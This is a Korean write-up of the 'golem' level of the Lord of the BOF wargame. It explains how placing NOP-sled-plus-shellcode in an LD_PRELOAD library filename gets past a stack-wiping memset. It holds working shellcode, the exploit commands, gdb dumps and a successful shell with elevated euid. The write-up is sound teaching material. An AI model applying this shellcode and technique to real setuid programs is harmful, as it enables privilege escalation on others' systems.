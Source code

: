 ```yaml
---
title: "[LOB]Level11. golem"
tags: [Wargame, LOB, Write-up]
author: eli_ez3r
key: 20180830
modify_date: 2018-08-30
article_header:
  type: cover
  image:
    src: 
---
```


[+ Stack Destroyer](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - golem
        - stack destroyer
*/
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

        // stack destroyer!
    memset(buffer, 0, 44);
	memset(buffer+48, 0, 0xbfffffff - (int)(buffer+48));
}
```

-----

### 0x01. Analysis

- RET의 시작주소는 `\xbf`
- buffer 배열 초기화
- **RET이후 스택 영역 모두 초기화**

앞문제에서 스택 최상단에 초기화 되지 않는 환경변수 영역까지 초기화 시키는 것을 확인할 수 있다.

따라서, **매개변수, 버퍼, 환경변수 모두 사용 불가**하다.

이제 프로그램 실행에 있어서 큰그림을 살펴봐야한다. 프로그램이 동작할 때 메모리에 실행한 프로그램만 로드되는 것이 아니다. 프로그램 내부에서 사용하는 함수들도 필요하므로 전부 메모리에 로드되게 된다. 일반적으로 내부 함수들은 외부 라이브러리에 존재하기 때문에 다른 메모리 영역에 존재하게된다.

```sh
[skeleton@localhost skeleton]$ ldd golem
        libc.so.6 => /lib/libc.so.6 (0x40018000)
        /lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)
```

프로그램 내부의 printf함수, strcpy, memset함수들이 모두 위 라이브러리에 속하여있고, 해당 주소에 위치되어 메모리에 로드된다.

여기서 만약 해당 라이브러리에 등록되지 않는 다른 임의의 함수를 추가해서 사용할 때는 어떻게 될까?

해당 함수를 메모리상에 로드해야 실행을 할 수 있으므로 프로그램 동작 시 사전에 메모리에 로드하게 된다.

이러한 설정을 할 수 있는 환경변수가 리눅스에 존재한다. `LD_PRELOAD` 이다.

> **LD_PRELOAD**
>
> 프로세스를 실행하는 중에 라이브러리를 로딩할 때, LD_PRELOAD 환경변수가 설정되어 있으면 해당 변수에 지정된 라이브러리를 먼저 로딩하고, 이중 libc 함수명과 동일한 함수가 있다면 해당 함수를 먼저 호출해 준다. 이러한 특성을 이용하여 후킹도 가능하다.



##### 1. LD_PRELOAD 환경 변수 등록

tmp.c 라는 파일을 만들고 해당 파일에 NOP코드와 쉘코드로 구성된 파일명으로 컴파일 한다. 

이때 `-fPIC` 와 `-shared` 옵션을 사용하여 컴파일한다. <u>쉘코드 안에는 '\x2f'가 있으면 안된다.</u>

```sh
[skeleton@localhost skeleton]$ mkdir tmp
[skeleton@localhost skeleton]$ cd tmp
[skeleton@localhost /tmp]$ vi tmp.c
```

```c
//tmp.c
int main(){
        return 0;
}
```

```
'\x2f'없는 shell(48byte) = \xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81
```

>-fPIC : Position-Independent Code의 약자이며 .o 파일을 동적라이브러리로 사용하도록 컴파일 하는 옵션
>
>-shared : 공유 라이브러리를 만드는 옵션

```sh
[skeleton@localhost tmp]$ gcc -fPIC -shared tmp.c -o `python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`
[skeleton@localhost /tmp]$ ls
tmp.c
?????????????????????????????????????????????????????????????????????????????????????????????????????^12?l????u楕
?凹2핽i00tii0cjo??T????
```



그리고 export LD_PRELOAD 명령어로 해당 파일을 등록한다. <u>이때 파일명을 반드시 절대경로로 지정해야 한다.</u>

```sh
[skeleton@localhost tmp]$ export LD_PRELOAD="/home/skeleton/tmp/`python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`"
```



이제 gdb로 LD_PRELOAD 환경변수가 메모리 어디에 로드되는지 확인해보자.

```sh
[skeleton@localhost tmp]$ cd ../
[skeleton@localhost skeleton]$ gdb -q ./aolem
(gdb) b*main+166
(gdb) r `python -c 'print "\xbf"*48'`
Starting program: /home/skeleton/./aolem `python -c 'print "\xbf"*48'`
옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜

Breakpoint 1, 0x8048516 in main ()
(gdb) x/100x $esp-3000
==================================(생략)===================================
0xbffff754:     0x6d6f682f      0x6b732f65      0x74656c65      0x742f6e6f
0xbffff764:     0x902f706d      0x90909090      0x90909090      0x90909090
0xbffff774:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff784:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff794:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7a4:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7b4:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7c4:     0x90909090      0xeb909090      0xc9315e11      0x6c8032b1
0xbffff7d4:     0x8001ff0e      0xf67501e9      0xeae805eb      0x32ffffff
0xbffff7e4:     0x306951c1      0x69697430      0x6f6a6330      0x5451e48a
0xbffff7f4:     0xb19ae28a      0x0081ce0c      0x40013868      0x4000220c
```

LD_PRELOAD는 golem의 메모리 영역보다 낮은 주소에 있기 때문에 초기화 되지 않은것을 알수 있다.

주소는 `0xbffff774` 근처로 잡으면 될 것같다.

-----

### 0x02. Exploit

```sh
[skeleton@localhost skeleton]$ ./golem `python -c 'print "\x90"*44+"\x74\xf7\xff\xbf"'`
릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱t?
풺ash$ id
uid=510(skeleton) gid=510(skeleton) euid=511(golem) egid=511(golem) groups=510(skeleton)
bash$ my-pass
euid = 511
cup of coffee
bash$
```

-----

### 0x03. 정리

앞 문제에서 초기화 되지 않는 환경변수 영역이 있어 이를 이용한 공격이 가능했지만, 이 또한 egghunter가 아닌 다른 방법으로 초기화 할 수 있음을 확인할 수 있었다.

그리고 `LD_PRELOAD`에 대해서 프로그램 실행시 사전에 메모리에 또다른 영역에 로드되는 것을 확인할 수 있었다.



실제 buffer배열의 주소와 LD_PRELOAD에 주소를 살펴보면,

```sh
Breakpoint 3, 0x80484d5 in main ()
(gdb) x/32x $ebp-40
0xbffffbc0:     0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf
0xbffffbd0:     0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf
0xbffffbe0:     0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf
0xbffffbf0:     0x00000000      0xbffffc34      0xbffffc40      0x40013868
```

```sh
0xbffff764:     0x902f706d      0x90909090      0x90909090      0x90909090
0xbffff774:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff784:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff794:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7a4:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7b4:     0x90909090      0x90909090      0x90909090      0x90909090
```

buffer배열의 시작주소는 `0xbffffbc0` 이고 LD_PRELOAD의 시작주소는 `0xbffff764` 인 것을 확인할 수 있다.

memset을통해 buffer+48부터 0xbfffffff 까지 초기화 하기 때문에 LD_PRELOAD 영역은 초기화 되지 않는 것이다.